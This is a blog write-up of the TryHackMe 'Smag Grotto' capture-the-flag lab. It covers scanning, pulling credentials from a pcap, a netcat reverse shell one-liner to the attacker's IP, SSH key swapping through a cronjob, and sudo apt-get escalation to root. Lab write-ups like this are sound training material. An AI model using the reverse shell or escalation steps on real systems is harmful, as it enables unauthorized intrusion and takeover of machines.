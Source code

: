 ```yaml
---
title: "Smag Grotto - TryHackMe"
author: Ludovic COULON
date: 2020-07-30
hero: ./images/hero.jpeg
excerpt: "Writeup for the Smag Grotto university of Portsmouth's beginner room"
---
```


[TryHackMe | Smag Grotto](https://tryhackme.com/room/smaggrotto)

Deploy the machine and get root privileges.

---

### Setup

```
[smaggrotto] nmap -A 10.10.192.6                                                                                         2:01:00
```

```bash
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 1.3K  2020-06-05 10:56  admin.php
| 1.5K  2020-06-05 10:45  login.php
| 139K  2020-06-05 10:19  materialize.min.css
|_
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Index of /
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/D9PypUN.png" alt="blog_image" />
</div>

Let's see if there is something on the website

<div className="Image__Medium">
  <img src="https://i.imgur.com/aXIQi2Y.png" alt="blog_image" />
</div>

Well nothing of the website let's see of there is some hidden dirrectory with gobuster/dirb

```bash
# Select your own wordlist
[smaggrotto] gobuster -u 10.10.192.6 -w /opt/directory-list-2.3-medium.txt
```

```bash
Gobuster v1.3                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.192.6/
[+] Threads      : 10
[+] Wordlist     : /opt/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
=====================================================
/mail (Status: 301)
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/V1XUxTY.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://i.imgur.com/UZZG0pk.png" alt="blog_image" />
</div>

Nice there is something interesting on this webpage let's download the pcap (wireshark) file and extract the juicy data 👀

<div className="Image__Medium">
  <img src="https://i.imgur.com/FZ4Kz25.png" alt="blog_image" />
</div>

The simple way to extract the data is to select the first packet then go to the "Analyse" tab the click on the "Follow" then "TCP Stream"

<div className="Image__Medium">
  <img src="https://i.imgur.com/yKY9pMB.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://i.imgur.com/RR1fGLX.png" alt="blog_image" />
</div>

Nice we successfully have the username and the password but for what ? The SSH ? Or something else ? 🙄

Before trying the SSH connection with those credentials, you can see on the TCP Stream there is a Host : "development.smag.thm", let's take a look to this link.

To add this host you need to edit your "/etc/hosts" file.

<div className="Image__Medium">
  <img src="https://i.imgur.com/Q5KPLgs.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://i.imgur.com/FLbTQw7.png" alt="blog_image" />
</div>

Well let's use the credentials that the TCP Stream gives us

```bash
h[nope 👁👄👁]k:cH[nope 👁👄👁]0w
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/L0iBMqp.png" alt="blog_image" />
</div>

Nice, we can execute remote command let's try a reverse shell 🤩

<div className="Image__Small">
  <img src="https://i.imgur.com/UJiq34Y.png" alt="blog_image" />
</div>

(This is actually my own chrome extension to generate some reverse shell and more..)

[LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.28.116 1337 >/tmp/f
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/4pVmO2j.png" alt="blog_image" />
</div>

Nice we have a reverse shell, let's see if we can have the first flag 🏅

<div className="Image__Medium">
  <img src="https://i.imgur.com/i1MkJLx.png" alt="blog_image" />
</div>

As you can see we don't have the permission to see the content of the file let's upload LinEnum to see if there is some potential attacks that we can perform.

<div className="Image__Medium">
  <img src="https://i.imgur.com/G9PaoMF.png" alt="blog_image" />
</div>

Ah, I found something very interesting with the cronjob

<div className="Image__Medium">
  <img src="https://i.imgur.com/MkUFU4L.png" alt="blog_image" />
</div>

As you can see the cronjob is taking the jake's backup SSH public key and add it to the authorised keys, if we create our own key and modify the backup file we can access the server ☺️

First let's generate our own SSH public key 👍

```bash
[smaggrotto] ssh-keygen -o
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/kXjks3E.png" alt="blog_image" />
</div>

Nice we have our own SSH public key let's change the backup file on the server 👍

<div className="Image__Medium">
  <img src="https://i.imgur.com/Q7IGUeR.png" alt="blog_image" />
</div>

Now let's wait one or two minutes and then we can log to the server with the jake username 😀

```bash
[smaggrotto] ssh -i [Path to your ssh key] jake@10.10.192.6
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/hEeAJH6.png" alt="blog_image" />
</div>

And voilà ! You have the access to the remote server ! 🎉

### **#1 What is the user flag?**

```bash
iusGo[nope 👁👄👁]uqU3j
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/5xn3kch.png" alt="blog_image" />
</div>

### **#2 What is the root flag?**

Now let's get a root access 😍

<div className="Image__Medium">
  <img src="https://i.imgur.com/TcRPpC7.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://i.imgur.com/9sh8unG.png" alt="blog_image" />
</div>

[apt get | GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/#sudo)

<div className="Image__Medium">
  <img src="https://i.imgur.com/iDrkgGN.png" alt="blog_image" />
</div>

```bash
uJr6zRgetan[nope 👁👄👁]bBKz2T
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/kUD3W5P.png" alt="TryhackMeProfile" />
  </a>
</center>
